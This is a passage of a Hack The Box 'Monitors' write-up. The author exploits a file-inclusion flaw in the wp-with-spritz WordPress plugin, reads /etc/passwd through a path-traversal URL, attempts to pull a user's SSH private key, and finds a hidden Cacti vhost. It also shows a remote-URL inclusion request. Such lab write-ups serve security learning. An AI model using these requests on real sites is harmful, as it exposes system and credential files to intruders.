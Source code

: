 Above code is present inside the plugin file, and POC explains to ways to extract information,

> 1. /wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd
> 2. /wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=http(s)://domain/exec

I tried first and successfully got `/etc/passwd` file, I also tried to extract `.ssh/id_rsa` from user's home directory but server only replied with empty page. At this point I am Assuming user did not have ssh login configured for himself or some permission is blocking the contents.

![image-20211019200709983](/image/hackthebox/monitors/image-20211019200709983.png)

I looked at the `/etc/apache2/sites-enabled/000-default.conf` and it showed two config files on on respective VHosts, there is one VHost that was hiding in the dark.
1.  monitors.htb.conf
2.  cacti-admin.monitors.htb.conf


![image-20211019200758003](/image/hackthebox/monitors/image-20211019200758003.png)
